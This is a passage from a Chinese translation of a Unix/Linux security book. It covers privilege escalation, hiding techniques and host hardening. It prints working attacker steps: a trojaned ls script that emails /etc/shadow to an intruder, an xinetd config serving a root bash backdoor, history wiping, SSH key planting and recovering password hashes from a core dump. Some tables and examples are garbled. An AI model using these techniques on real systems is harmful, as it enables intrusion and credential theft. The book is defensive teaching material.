这将允许受害者机器在入侵者的服务器上显示 X 程序。入侵者只需要连接到 `telnet` 主机，这将使 `inetd` 或 `xinetd` 以 `root` 权限调用 `/usr/sbin/in.telnetd`，从受害者主机调用一个 `root` `xterm` 并呈现给入侵者！

### 确保正确的权限

例行审核文件以确保正确的权限权限。

## `PATH` 中的 `":"`

当用户执行命令时，命令 `shell` 会在 `PATH` 环境变量中包含的目录列表中搜索该命令的位置：

```bash
[bash]$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/home/joe:/bin
```


假设 `root` 用户将当前目录（“.”）放在了他的 `PATH` 中：
`:/usr/local/sbin:/usr/local/bin:/usr/bin:/bin`

现在，每当 `root` 用户执行如 `ls` 的命令时，首先会在当前目录中查找“`ls`”，然后会在 `PATH` 变量中列出的其他目录中搜索。

### 利用 PATH 中的 "." 植入木马

一个拥有本地账户如“joe”访问权限的恶意用户可能在 `PATH` 中创建一个名为“`ls`”的文件，并在受害者的家目录（`/home/joe`）放置以下内容：

Resolving intruder's_server... done.
Connecting to intruder's_server[10.0.0.1]:80... connected.
HTTP request sent, awaiting response... 200 OK

## 更新或修补内核

通常，内核漏洞的补丁由内核开发者及时发布。确保在暴露给恶意用户之前安装它们。

### 本地缓冲区溢出

请参考第 4 章介绍缓冲区溢出。本地应用程序和服务也受到缓冲区溢出攻击。例如，“HP-UX IPCS Core文件溢出漏洞”是由文件名检查不当引起的。易受此漏洞影响的 `ipcs` 程序会被本地用户利用获取 `root` 权限。


## 不正确的输入验证

对接受输入的程序进行输入验证非常重要。`Setuid` 程序以 `root` 用户权限执行，因此微小的输入验证漏洞可能允许本地用户以 `root` 权限执行命令。

例如，考虑 `runpr` 工具，它被发现存在输入验证漏洞。

## 符号链接

`符号链接`是包含文件路径的特殊文件。当程序尝试访问符号链接时，内核会透明地将进程重定向到符号链接指向的文件。

虽然符号链接是一个很有用的功能，但它们可用于利用不检查文件是否为符号链接的程序。例如，`CDE Tooltalk` 符号链接漏洞，它没有检查写入日志的文件是否为符号链接。攻击者可以创建一个指向 `/etc/shadow` 的符号链接，其名称和路径与 `Tooltalk` 创建的日志相同。这将导致 `Tooltalk` 写入 `/etc/shadow`，导致其内容损坏。攻击者成功强制将特定内容写入敏感文件，就可以利用这些漏洞获得提升权限。

## 核心储

当 Unix 或 Linux 系统崩溃时，操作系统会创建一个“core”文件。该文件包含了崩溃进程的信息。核心储被开发者用于调试软件。由于核心储包含崩溃进程的详细信息，入侵者可能会特意利用已知漏洞崩溃一个运行中的进程，以获取可能放在核心储中的敏感信息。

### Solaris FTP 核心储影子文件恢复漏洞

在旧版本 Solaris 分发的 FTP 服务器已知在当通过以下命令强制崩溃时，会将 `/etc/shadow` 的部分放在其核心储文件中：

```CWD ~
```

使用此命令崩溃 FTP 服务进程后，入侵者可能会获取转储的核心文件，以获取 `/etc/shadow` 文件的部分。以下是尝试此操作的示例会话：

```bash
[bash]$ telnet 127.0.0.1 21

Trying 127.0.0.1...

Connected to 127.0.0.1.

Escape character is '^'.

220 127.0.0.1 FTP server (SunOS 5.6) ready

user joe

331 Password required for joe.
```

wrongpassword 密码错误
530 登录错误。
CWD ~
530 使用 USER 和 PASS 登录。
由主机关闭连接。

```bash
[bash]$ strings /core | grep root

root:$1PykB83bckLZ7CbPhXlnoql:2241:0:9999:7::
```

一旦入侵者获得了 `root` 用户的哈希访问权限，他可以使用 `John the Ripper` 等工具强制破解密码。请参阅 `securityfocus.com/bid/261` 获取关于 Solaris 漏洞的更多信息。参考第 4 章了解如何使用 `John the Ripper` 进行密码破解。


# 及时安装补丁

软件供应商经常发布补丁以修复漏洞。在漏洞被利用之前，确保已安装此类补丁。

# 配置错误

通常，管理员会将注意力完全放在远程服务的加固上。对本地服务应用程序的疏忽可能会导致本地用户获得更高的权限。例如，管理员可能会故意配置运行在主机上的数据库以允许任何用户连接。尽管防火墙阻止远程用户登录数据库，但这种配置可能允许本地用户提升权限。因此，强烈建议对本地服务应用程序进行常规加固和审计。

### 总结

本章介绍了入侵者用于提升权限的技术。你学习了信任本地用户的危险性、文件权限、配置错误以及软件漏洞。一旦入侵者获得了 `root` 权限，他将拥有完全控制权。入侵者必须隐藏其踪迹，并植入木马以确保持续访问。这些主题将在后续章节讨论。请参考本书的第二部分了解如何进行主机加固，这将有助于防御本章介绍许多权限提升攻击。

# 第 6 章：隐藏

在本章节中：
- 清理日志
- 后门
- Rootkits（根内核程序）
- 总结

`root/.bash_history` 片段提供了一个主机被破坏后常见的典型黑客活动示例。

## 禁用 Shell 历史

为了禁用命令历史，入侵者可以将 shell 历史文件设置为 `/dev/null` 的符号链接：

```bash
[bash]# rm -rf /root/.bash_history

[bash]# ln -s /dev/null /root/.bash_history
```

现在，任何尝试写入 `/root/.bash_history` 的进程将写入 `/dev/null`，这是一个空文件。这将导致 `bash` 生成的所有历史数据被丢弃。

### 启用审计和日志

历史文件的目的是帮助用户回忆最近执行的命令。从安全角度来看，不应信任用户的 shell 历史文件，用户可能会删除或编辑该文件以包含他们想要的信息。相反，管理员应该将精力放在书中第二部分描述系统审计和日志策略上。

### 清理 /var

`/var` 目录通常包含以下文件：
- `utmp` 和 `wtmp`：包含登录系统的信息。
- `messages` 和 `secure`：由 `syslog` 守护进程记录各种应用程序和守护进程提交的日志。
- `xferlog`：由 FTP 守护进程记录数据传输请求。
- `maillog`：由 SMTP 服务器记录邮件传输。
- `lastlog`：包含最近登录的用户信息。

入侵者可能会手动编辑列出的文件以隐藏其踪迹。通常，入侵者使用 `zap3` 等自动化工具完成此任务。`zap3` 工具可以清理 `utmp`、`wtmp`、`messages`、`secure` 和 `lastlog`。它从 `http://www.packetstormsecurity.org/` 获取。此外，入侵者可能会禁用 `syslogd` 等服务并修改其配置文件（`syslog.conf`），将日志写入 `/dev/null`。

### 后门

一旦入侵者获得系统的访问，他们可能希望维持特权状态。本节介绍了高级黑客用于确保持续访问受损主机的不同方法。

### 安装远程 Shell

入侵者可以在 `inetd.conf` 或 `xinetd` 目录中添加条目，使 `inetd` 或 `xinetd` 在特定端口提供远程 shell。这可以通过配置 `inetd` 或 `xinetd` 执行 `/bin/bash` 或其他命令 shell 来。一旦完成，攻击者可以 `telnet` 连接到受害端口。

```xinetd
{
    socket_type = stream
    wait = no
    server = /bin/bash
}
```

为了使此生效，必须重启 `xinetd`。

# SSH 的 authorized_keys

如果受害者运行着 SSH 服务器，入侵者可以通过将公钥放入 `.ssh` 目录来维持访问。SSH 将信任此公钥并允许拥有私钥的入侵者登录。

# 滥用 SSH 授权密钥机制获取 root 权限

入侵者可以在其主机上使用 `ssh-keygen` 创建所需的公私钥对：

```bash
$ ssh-keygen -t rsa

Generating rsa key pair.
Enter file in save the key (/home/intruder/.ssh/):

Created directory '/home/intruder/.ssh'.
Enter passphrase (empty for no passphrase): [enter]
Enter same passphrase again: [enter]
Your identification has been saved in /home/intruder/.ssh/id_rsa.
```


Your public key has been saved in `/home/intruder/.ssh/id_rsa.pub`.

The key fingerprint is:

`38:33:7b:db:05:00:10:62:57:bc:8b:85:05:9a:a9@intrudershost`

现在，入侵者必须将 `.ssh/id_rsa.pub` 的内容复制到受害者主机的 `.ssh/authorized_keys`。完成后，入侵者可以无密码 SSH 登录受害者主机：

```bash
$ ssh root@victim’s_address

Last login: Sun Mar 30 02:23:48 2003 from intruder’s_host
```

### 不允许 root 通过 SSH 登录

不要允许 root 通过 SSH 登录。要执行此规则，请编辑 `sshd_config` 并确保存在以下行：

```ssh
PermitRootLogin no
```

# Loki2

Loki2 是一款免费提供的工具，经常被入侵者用于安装后门。它使用 `ICMP_ECHO` 和 `ICMP_REPLY` 数据包来隧道 shell 命令。这使得检测变得极其困难，因为它的数据包看起来就像 ping 工具生成的 ICMP 流量。

# 126 第 I 部分：攻击技术与防御

有关 Loki 的更多信息，可以访问 http://www.phrack.com/show.php?p=51&a=6 获取。

### 加固防火墙规则

配置您的防火墙以丢弃入站 ICMP 请求并流出的 ICMP 回显回文。同时，除非需要，否则阻止所有入站和出站 UDP 流量。

### 木马

黑客经常在受害者主机上放置各种命令的修改过的二进制文件。这些修改过的二进制文件看起来运行正常，但它们会代表入侵者反复执行恶意命令。

### 木马化常用命令

入侵者可能会用以下脚本替换 `/bin/ls` 二进制文件：

```bash
#!/bin/bash

cat /etc/shadow | mail intruder@intruders_email

/bin/ls.old
```

该脚本会将 `/etc/shadow` 文件通过电子邮件发送给入侵者。当然，这只有在 root 用户执行它时才会成功。注意，该脚本调用了原始二进制文件（保存为 `/ls.old`）。这使得受害者难以检测到。此类修改过的二进制文件被称为木马。

这些是最常被入侵者木马化的二进制文件：

`arp`, `cat`, `chfn`, `chsh`, `crontab`, `du`, `ifconfig`, `finger`, `find`, `killall`, `more`, `locate`, `login`, `ls`, `lsof`, `passwd`, `pidof`, `ps`, `route`, `netstat`, `tail`, `tcpd`, `tcpdump`, `top`, `w`, `who`, `syslog`.

请参阅本书参考中心中的“常用命令”获取其中许多命令的描述。

### 检测木马

请参阅“检测 Rootkit（根内核包）”。

### Rootkit

入侵者不需要花费费多精力就可以收集并安装木马及后门。他们只需要在网上搜索 rootkits 即可。Rootkits 是由现成的木马组成的包，方便黑客使用。它们还包含其他工具，使入侵者能够自动清理日志文件、安装后门并使用网络嗅探器等工具。以下攻击手段描述了几个在网上免费提供的流行 rootkit。

### Adore

Adore rootkit 是 Linux 内核模块的集合，允许入侵者隐藏进程、文件和网络设备详细信息。它还包含一个 root shell 后门。Adore 可以从 http://www.team-teso.net/releases.php 获取。

### Linux Rootkit (LRK)

最流行的 Linux rootkit LRK 包含许多常用命令的木马化二进制文件，包括但不限于：`chfn`, `chsh`, `crontab`, `du`, `find`, `ifconfig`, `inetd`, `killall`, `login`, `ls`, `netstat`, `password`, `pidof`, `ps`, `rshd`, `syslog`, `tcp`, `top`, `ssh` 和 `su`。它还包含一个嗅探器以及 root shell 后门。LRK 可以从 http://www.packetstormsecurity.org 获取。

### Tornkit

Tornkit 由各种木马二进制文件、嗅探工具以及执行自动禁用 `syslogd` 和其他关键服务的工具组成。它可以从 http://www.packetstormsecurity.org 下载。

### Knark

Knark 是一种隐藏文件和进程的 rootkit，并且具有重定向命令的能力。它包含一个用于远程执行命令的后门。Knark 可以从 http://www.packetstormsecurity.org 获取。

### 检测 Rootkits

可以使用以下工具来检测 rootkit 和木马：

- Chrootkit 可检查系统上的 rootkit。可以从 http://www.chkrootkit.org/ 获取。
- 使用 Tripwire 或 Samhain 来检测修改过的二进制文件。有关 Tripwire 的更多信息请访问 http://www.tripwire.com/。有关 Samhain 的信息可以在 http://samhain.sourceforge.net 获取。

### 总结

从清理日志文件到安装后门和 rootkit，本章描述的许多技术列出了入侵者为了隐藏其行踪并确保对受害者主机持续拥有 root 权限的各种方法。从所讨论的话题显而易见，检测高级黑客的存在通常非常困难。因此，尽管本章结束了攻击方法论，但强烈建议您考虑本书第二部分的建议，以便对您的主机策略和配置进行加固。

# 第二部分

# 主机加固

- **第 7 章** 默认设置与服务
- **第 8 章** 用户与文件系统权限
- **第 9 章** 日志与补丁

本页特留白

# 第 7 章

# 默认设置与服务

本章内容：

- 设置密码策略
- 移除或禁用不必要的账户
- 从 PATH 变量中移除 *
- 检查 `/etc/hosts.equiv` 的内容
- 检查 `.hosts` 文件
- 禁用栈执行
- 使用 TCP Wrappers
- 加固 inetd 和 xinetd 配置
- 加固远程服务
- 总结

大多数 Unix 和 Linux 发行版的默认安装为对各种策略、应用程序和服务进行更好的加固留留了空间。本章提供了如何加固主机及其常用服务的技巧。

## 设置密码策略

入侵者经常利用弱弱的密码策略来获取用户账户的访问。可以采取一些步骤来加固密码策略：

- 确保使用影子密码（shadowed passwords）。检查并确保密码哈值仅存在 `/etc/shadow` 中，且该文件必须对 root 可。
- 修改配置文件（`etc/default/passwd`）或使用 `chage`。

# 移除或禁用不必要的账户

检查 `/etc/passwd` 以确保不必要的账户没有在被使用。

# 从 PATH 变量中移除 *

当用户执行命令时，`PATH` 变量搜索目录。为了防止攻击，检查 `PATH` 变量：

```bash
echo $PATH
```

# 检查 /etc/hosts.equiv 的内容

`/etc/hosts.equiv` 文件包含了允许通过 rsh 登录的主机列表。

### 检查 .hosts 文件

检查文件系统中是否存在 `.hosts`。使用 `find` 命令：

```bash
find -name .hosts -type f 2>/dev/null
```

### 禁用栈执行

禁用栈执行将防止某些缓冲区溢出。如果使用 Solaris，编辑 `/etc/system` 并添加以下行：

```bash
set noexec_stack=1
set noexec_log=1
```

对于非 Solaris 发行版，有以下产品：

- StackGuard: http://www.immunix.org/stack.html
- Libafe: http://www.research.avalay.com/
- StackGhost: cerghost.purdue.edu/
- Openwall: http://www.openwall.com/

### 使用 TCP Wrappers

TCP Wrappers 允许对服务的请求进行监控和过滤。大多数发行版默认安装 TCP Wrappers，但如果你需要，可以从 ftp://ftp.porcupine.org 获取。

# 134 第二部分：主机加固

在安装了 TCP Wrappers 的主机上，编辑 `/etc/hosts.allow` 并确保以下行是第一个未注释的语句：

```
ALL:deny
```

此外，确保默认拒绝所有主机的连接。可以通过在 `/etc/hosts.deny` 中放置以下条目来实现：

```
all:all
```


在`/etc/hosts.allow`中放置适当的条目以允许信任的主机连接服务。详细指令请参阅 http://www.cert.org/security-improvement/implementations/i4i07.html。

## 加固 inetd 和 xinetd 配置

Internet 服务守护进程`inetd`用于在网络连接到达时立即启动相应的守护进程。因此，`inetd`通常被称为“超级服务器”。`xinetd`进程与`inetd`类似，但包含更多功能，`xinetd`用户应强烈考虑升级到`xinetd`。

### 禁用必要的服务

如果使用`inetd`，编辑`/inetd.conf`文件并确保不必要的服务已禁用。例如，考虑`inetd.conf`中负责 FTP 守护进程的行：

```bash
ftp stream tcp nowait root /usr/local/etc/tcp /usr/local/etc/ftpd
```

为了从`inetd`禁用 FTP，在行行前加一个`#`：

```bash
#ftp stream tcp nowait root /usr/local/etc/tcp /usr/local/etc/ftpd
```

重启`inetd`使更改生效：

```bash
killall -HUP inetd
```

如果使用`xinetd`，编辑`xinetd.directory`中的相应的服务文件并确保存在`"disable = yes"`这一行。

### 如果未启用服务，禁用 inetd 或 xinetd

如果`inetd`或`xinetd`服务已被禁用，则没有必要让`inetd`或`xinetd`继续运行。要防止`inetd`或`xinetd`在启动时执行，请禁用`/etc/rc.d`和`/etc/rc.local`中的相应文件。

### 确保开启日志记录

如果正在运行`inetd`，请编辑`inetsvc`文件并确保调用`inetd`时带有`-t`标志。对于`xinetd`，请编辑`xinetd.conf`并确保存在以下行：

```
log_type = SYSLOG authpriv
```

此外，编辑`syslog.conf`并确保启用了`*.info`以将日志记录到`/var/log/messages`中。

### 加固远程服务

本节提供了针对 Unix 和 Linux 主机上某些常用远程服务的加固建议。

使用`netstat`查找在 TCP 和 UDP 端口上监听的进程：

```
[bash]# netstat -nap
Proto Local Address Foreign Address State PID/name
tcp 0 0.0.0.0:139 0.0.0.0:* LISTEN 1251/smbd
tcp 0 0.0.0.0:80 0.0.0.0:* LISTEN 11228/X
tcp 0 0.0.0.0 0.0.0.0:* LISTEN 2047/httpd
tcp 0 0.0.0.0:113 0.0.0.0:* LISTEN 728/identd
tcp 0 0.0.0.0:22 0.0.0.0:* LISTEN 750/sshd
udp 0 0.0.0.0:512 0.0.0.0:* LISTEN 14059/xinetd
...]
```

#### WU-FTPD

FTP（文件传输协议）是一种用于从一个主机传输文件到另一个机的协议。`WU-FTPD`是 Unix 和 Linux 上最广泛使用的 FTP 守护进程。可以在 http://www.wu-ftpd.org/ 获取。采取以下步骤加固`WU-FTPD`：

- 修改服务器横幅（banner）。编辑`/etc/ftpaccess`并使用`greeting`指令指定新的服务器信息。例如：`greeting text No banner information available. Sorry.`

- 确保`/etc/ftpusers`包含一个不允许进行 FTP 登录的用户列表。`root`、`bin`和`http`等用户不应允许 FTP 登录。

- 编辑`inetd.conf`或`/etc/xinetd.d/ftpd`，并确保调用`in.ftpd`时带有`-l`标志。这将启用日志记录。

- 如果允许匿名上传，则上传的文件必须是不可见的，并且应该禁止下载上传的文件。否则，你的 FTP 服务器可能会被软件盗贼滥用。详情请参阅 http://www.wu-ftpd.org/HOWTO/upload.configuration.HOWTO。

- 使用`chrooted` FTP 环境，特别是针对匿名访问。请参阅 http://www.wu-ftpd.org/HOWTO/HOWTO 获取有关如何设置的详细说明。

考虑将`ProFTPD`作为`WU-FTPD`的替代品，因为它已被证明没有像`WU-FTPD`那样容易受到许多远程漏洞的影响。`ProFTPD`可 http://www.proftpd.org 获取。

#### SSH

`SSH`是一种用于交换数据的安全协议。它可以用于登录远程机器、远程执行命令以及传输文件。由于与`SSH`的通信是加密的，因此它是`telnet`、`login`和`FTP`等远程登录解决方案的理想替代品。采取以下措施加固`SSH`：

- 确保禁用`SSH`协议版本 1。`sshd_config`文件必须包含以下行：`Protocol 2`

- 不应允许`root`用户通过`SSH`登录。确保`sshd_config`中存在以下行：`PermitRootLogin no`

- 如`ssh_host_key`、`ssh_host_rsa_key`和`ssh_host_rsa_key`等私钥文件应仅允许`root`用户读取。

- 确保已开启特权分用（Privilege Separation）。`sshd_config`中必须存在以下行：`UsePrivilegeSeparation yes`

#### Sendmail

`Sendmail`是互联网上最流行的 MTA（邮件传输代理）。要加固`Sendmail`，请确保采取以下措施：

更改 SMTP 欢迎消息。编辑`sendmail.cf`文件并更改`SmtGreetingMessage`的值以反映新的横幅（banner）。或者，你可以编辑`sendmail.mc`并将`confSMTP_LOGIN_MSG`的值更改为新的欢迎语。

`EXPN`和`VRFY`是 SMTP 协议支持的用于用户名枚举的两个命令。你应该通过编辑`sendmail.cf`来关闭它们，并确保`PrivacyOptions`设置为`authwarnings, noexpn, novrfy, restrictqun`。或者，你可以编辑`sendmail.mc`文件并确保存在以下行：

`define('CONFPRIVACY_FLAGS', 'authwarnings, noexpn, novrfy, restrictqun')dnl`

还可以设置其他标记，如`goaway`、`restrictmail`、`restrictqun`和`nobodyturn`。详情请参考`Sendmail`文档。

使用`smush`作为 MDA（邮件投递代理），它是一个`sh`程序；它限制了可以使用`Sendmail`的`"command"`语法运行的命令。要启用`smush`，请确保以下内容：

| 文件或目录 | 用户 | 权限 |
| :--- | :--- | :--- |
| `/etc/aliases` | `root` | `-rw--` |
| `/etc/mail` | `root` | `drwxr-xr-x` |
| `/var/mail` | `root` | `drwxr-xr-x` |
| `/var/spool/mail` | `root` | `drwxr-xr-x` |

检查`sendmail.mc`中`MaxSize`的值：`define('MaxSize', '1048576')`

众所周知`Sendmail`易受到漏洞影响。考虑使用`qmail`作为

这将生成`sendmail.cf`：

```
m4 sendmail.mc > sendmail.cf
```


### BIND

DNS（域名系统系统）是一种用于解析域名和 IP 地址的协议。`BIND`（Berkeley Internet Name）是互联网上使用广泛的 DNS。采取以下措施加固 `BIND`：

- 编辑 `BIND` 配置 `named.conf` 并覆盖版本：
```
version "Not available"
```

- 限制区域传输。使用 `allow-transfer` 指令指定主机：
```
options { allow-transfer { ip_address }; };
```

- 关闭递归查询。这将防止你的 DNS 服务器受到欺骗攻击：
```
options { recursion no; };
```

- 在 `chroot` 环境中运行 `BIND`。详情请参阅 http://www.homeport.org/~adam/dns.html。

- 限制动态更新，因为该功能允许远程实体删除和添加记录。默认情况下，`BIND` 不允许动态更新。只有使用 `allow-update` 语句才能启用。

### Apache (HTTP 和 HTTPS)

考虑使用 `djbdns` 作为 `BIND` 的替代品。`djbdns` 服务器可以在 http://cr.to/djbdns.html 获取。

`Apache` 是目前最流行的 Web 服务器。可以采取以下步骤加固服务器配置：

- 修改你的 HTTP 横幅。编辑 `httpd.conf` 并确保以下指令为：
```
ServerSignature Off
ServerTokens Prod
```

如果你不想在 `Server` 标签中显示 "Apache"，但想显示虚假信息如 "Server: Not-allowed"），你需要：

1. 下载 `Apache` 源码。
2. 编辑 `httpd.h` 文件，并将行 `#define SERVER_BASEPRODUCT "Apache"` 中的字符串值更改为其他：
```
#define SERVER_BASEPRODUCT "Not-allowed"
```
3. 重新编译、安装并重启 `Apache`。

- 关闭自动索引。这将指示 `Apache` 在没有默认索引文件（如 `index.html`）时不提供目录列表。在 `httpd.conf` 中使用 `IndexIgnore` 指令来实现此点。

- 配置 `Apache` 不提供 `.htaccess`, `.htpasswd`, `.inc`, `.jsp`, `.java` 或 `.php` 等敏感文件。例如，在 `httpd.conf` 中使用以下指令限制 `Apache` 提供以 `.ht` 开头的文件：
```
<Files
  "\*.ht"
  Order allow, deny
  Deny from all
</Files>
```

- 移除默认帮助页。
- 移除默认和示例 CGI 脚本及应用程序。

- 使用 `AccessFilename` 目录设置 `Apache` 用于访问控制时必须使用的文件名。这通常设置为 `.htaccess`。

- 考虑在 `chroot` 环境（禁锢）中运行 `Apache`。详细说明请参见 http://hoohoo.ncaa.uiuc.edu/docs/tutorials/chroot.html。

- 确保 `Apache` 设置为非 `root` 权限运行。检查 `httpd.conf` 中的 `User` 和 `Group` 设置，并确保它们被设置为 `apache` 或 `httpd` 等非 `root` 账户。

- 使用 `ErrorLog`、`CustomLog`、`LogLevel` 和 `LogFormat` 指令启用日志。确保在 `httpd.conf` 中正确设置这些指令。

- 禁用不需要的模块。注释 `httpd.conf` 中相应的 `AddModule` 和 `LoadModule` 指令。

## Samba

`Samba` 使用 `SMB`（服务器消息块）协议在网络上共享文件和打印机。按照以下步骤加固 `Samba` 配置：

- 修改服务器字符串。编辑 `smb.conf` 并将 `server string = Samba Server` 改为其他内容：`server string = no information`

这将更改每个共享名称旁边显示的描述字段。
要更改实际的 `Samba` 版本信息，请编辑 `source/include/version.h` 文件并将常量 `VERSION` 的值改为其他内容。你必须重新编译 `Samba` 更改才能生效。

- 编辑 `smb.conf` 并设置 `hosts allow` 选项的值，以限制允许连接到服务器的主机。

- 使用密码加密。在 `smb.conf` 中将 `encrypt passwords` 的值设置为 `yes`。更多信息请参阅 http://us1.samba.org/samba/ftp/docs/textdocs/ENCRYPTION.txt。

- 如果有多个网卡，可以指示 `Samba` 监听在特定的接口上。使用 `smb.conf` 中的 `interfaces` 选项来指定 `Samba` 必须监听的接口。

## 第 7 章：默认设置与服务 141

- 研究 `smb.conf` 文件，以确保存储关键信息的共享未授予客户访问。

## NFS

`NFS`（网络文件系统）是一种提供跨网络共享文件远程访问的文件系统协议。以下是你可以采取的一些步骤来加固 `NFS` 服务器配置：

- 将文件系统导出为只读。考虑不要以读写权限导出它们。使用 `/etc/exports` 或 `/etc/dfs/sharetab` 中的 `ro` 选项来指定共享为只读。示例：
```
/nfsclient_ip(ro)
```

- 防止非 `root` 用户挂载 `NFS` 共享。要实现此点，请编辑 `/etc/exports` 或 `/etc/dfs/sharetab` 并确保存在 `(secure)` 选项。例如：
```
/nfsclient_ip(secure)
```

- 不要允许远程用户以 `root` 权限挂载 `NFS` 共享。这将允许他们修改 `NFS` 共享上由 `root` 拥有的文件。使用 `/etc/exports` 或 `/etc/dfs/sharetab` 中的 `root_squash` 选项来防止此类问题。

- `NFS` 客户端必须配置为不在挂载的共享上设置 `setuid` 程序。否则，恶意的或受攻击的 `NFS` 服务器可能会在导出的共享中放置 `root` 的 `setuid` 木马文件，这些文件将在客户端上以 `root` 身份执行。在挂载 `NFS` 共享时使用 `nosuid` 选项。如果可能，还应考虑使用 `noexec` 选项，它禁止在 `NFS` 客户端上执行二进制文件。

### 总结

尽可能地加固系统配置是非常重要的。必须严格执行密码策略以确保使用强密码，并且在不使用时应禁用不必要的服务。此外，应该禁用栈执行以防止许多形式的缓冲区溢出攻击。如果不需要，`.hosts` 和 `/etc/hosts` 等文件必须定期进行审计或删除。`PATH` 变量不应包含“.”以防止木马可执行文件。强烈建议执行本章描述的加固步骤以确保远程服务的安全配置。

## 第 8 章

## 用户与文件系统权限

本章内容：
- 文件权限：快速上手教程
- 全局可读文件
- 全局可写文件
- `bin` 和 `sys` 拥的文件
- `umask` 值
- 重要文件
- `/dev` 中的文件
- 磁盘分区
- `setuid` 和 `setgid` 文件
- 实现 `wheel` 组
- `Sudo`
- 总结

用户和文件系统权限必须经过严格控制。一个简单的单文件（例如错误的文件权限）就可能导致整个系统被破解。本章旨在为系统管理员提供实用的技巧，以确保正确的用户和文件系统权限。

## 文件权限：快速上手教程

使用 `ls -l -1` 标志检查文件权限。例如，让我们检查分配给 `/usr/sbin/id` 命令的文件权限：
```
[bash]$ ls -l /usr/bin/id
-rwxr-xr-x 1 root 13864 Apr 8 2002 /usr/bin/id
```

上述输出的第一列描述了相关的文件权限。第一个字符被设置为连字符 (`-`)，表示 `/usr/bin/id` 是一个文件。如果它是目录，该字符将设置为 `d`。接下来的三个字符 (`rwx`) 代表文件所有者的权限，在本例中所有者是 `root`，如上述输出的第三列所示。随后的三个字符 (`r-x`) 代表与该文件关联的组的权限，在本例中也是 `root`，如输出的第四列所示。最后三个字符 (`r--`) 代表与所有用户（即所有人）关联的权限。

字符 `r` 表示读取权限，而字符 `w` 和 `x` 分别表示写入权限和执行权限。当分配了 `setuid` 或 `setgid` 权限时，大写字符会替换 `x`。如果 `root` 用户为目录开启了粘性位（sticky bit），最后一个字符 (`x`) 将替换为 `t`。当粘性位开启时，所有用户对目录都有读写权限，但只能访问他们自己的文件。因此，注意 `/tmp` 目录开启了粘性位。

使用 `chmod` 命令更改文件权限。假设我们名为 "perm" 的文件：
```
[bash]# ls -l perm
-rw-wr-r-- 1 root 0 Apr 5 22:40 perm
```


上述列表显示 `root` 用户和 `root` 组对文件具有读取或写入权限。所有其他用户只能读取该文件。如果我们想更改 `perm` 的文件权限，使得 `root` 用户 (`u`) 也能执行 (`x`) 该文件，我们需要...

## 第 8 章：用户与文件系统权限 147

假设我们希望 `umask` 值使得文件所有者具有读写权限，而组组或其他用户没有权限。此外，假设我们希望目录的 `umask` 包含执行 (`x`) 权限。如果一个目录没有执行 (`x`) 权限，则无法 `cd`（切换目录）进入该目录。此类设置的文件权限值为 `700`，拆分为字节组时表示为：

```
111 000 000
```

使用上表，我们将此值与 `777` 进行异或（XOR），以获得正确的 `umask` 值：

```
111 000 000 : 700
111 111 111 : 777
XOR: 000 111 111 : 077
```

使用 `umask` 命令设置新的 `umask` 值：

```
umask 077
```

推荐的 `umask` 值为 `077`。这使得每个新创建的文件或目录仅允许其所有者读取和写。请注意，`umask` 值由三组字节，即三组八位组成。编译器创建的文件通常遵循 `umask` 值（执行 `x` 位除外）。

## 重要文件

确保以下文件已分配了正确的权限：

| 文件名 | 用户 | 组 | 权限 |
| :--- | :--- | :--- | :--- |
| `/bin` | root | root | drwx-xr-x |
| `/etc` | root | root | drwx-xr-x |
| `/etc/aliases` | root | root | -rw-r--r-- |
| `/etc/default/login` | root | root | -rw-r---- |
| `/etc/exports` | root | root | -rw-r--r-- |
| `/etc/hosts` | root | root | -rw-rw-rw-- |
| `/etc/hosts.allow` | root | root | -rw------- |
| `/etc/hosts.deny` | root | root | -rw------- |
| `/etc/hosts.lpd` | root | root | -rw------- |
| `/etc/inetd.conf` | root | root | -rw------- |
| `/etc/issue` | root | root | -rw-r--r-- |

| 文件名 | 用户 | 组 | 权限 |
| :--- | :--- | :--- | :--- |
| `/etc/login.access` | root | root | -rw------ |
| `/etc/login.conf` | root | root | -rw------ |
| `/etc/login.defs` | root | root | -rw------ |
| `/etc/motd` | root | root | -rw-r-r-- |
| `/etc/mtab` | root | root | -rw-xr-r-- |
| `/etc/netgroup` | root | root | -rw------ |
| `/etc/password` | root | root | -rw-r-r-- |
| `/etc/rc.d` | root | root | drwx------ |
| `/etc/rc.local` | root | root | -rw------ |
| `/etc/rc.sysinit` | root | root | -rw------ |
| `/etc/secuertty` | root | root | -rw------ |
| `/etc/security` | root | root | -rw------ |
| `/etc/services` | root | root | -rw-r-r-- |
| `/etc/shadow` | root | root | -r------ |
| `/etc/ssh/ssh_host_key` | root | root | -rw------ |
| `/etc/ssh/sshd_config` | root | root | -rw------ |
| `/etc/ssh/ssh_host_dsa_key` | root | root | -rw------ |
| `/etc/ssh/ssh_host_key` | root | root | -rw------ |
| `/etc/ssh/ssh_host_rsa_key` | root | root | -rw------ |
| `/etc/ttys` | root | root | drwx------ |
| `/root` | root | root | drwx------ |
| `/sbin` | root | root | drwxr-xr-x |
| `/tmp` | root | root | drwxrwxrwt |
| `/usr/bin` | root | root | drwxr-xr-x |
| `/usr/etc` | root | root | drwxr-xr-x |
| `/usr/sbin` | root | root | drwxr-xr-x |
| `/var/log` | root | root | drwxr-xr-x |
| `/var/log/authlog*` | root | root | -rw------ |
| `/var/log/boot*` | root | root | -rw------ |
| `/var/log/cron*` | root | root | -rw------ |
| `/var/log/dmesg` | root | root | -rw------ |
| `/var/log/lastlog` | root | root | -rw------ |
| `/var/log/maillog*` | root | root | -rw------ |
| `/var/log/messages*` | root | root | -rw------ |

| 文件名 | 用户 | 组 | 权限 |
| :--- | :--- | :--- | :--- |
| `/var/log/secure*` | root | root | -rw------ |
| `/var/log/spooler*` | root | root | -rw-r---- |
| `/var/log/syslog*` | root | root | -rw------ |
| `/var/log/utmp*` | root | utmp | -rw-rw-r-- |
| `/var/log/wtmp*` | root | utmp | -rw-rw-r-- |
| `/var/log/xferlog` | root | root | -rw------ |
| `/var/run` | root | root | drxr-xr-x |
| `/var/run/*.pid` | root | root | -rw-r--r-- |
| `/var/spool/cron` | user | root | drwx------ |
| `/var/spool/cron/crontabs/root` | root | root | |
| `/var/spool/mail` | root | mail | drwxrxr-x |
| `/var/spool/mail/*` | user | user | -rw-rw-r-- |
| `/var/tmp` | root | root | drwxrwxrwt |


配置 `/etc/security/audit_control` 以选择要记录的事件。详细说明请参见 http://www.securityfocus.com/infocus/1362。重启以使更改生效。

### /var/adm/loginlog

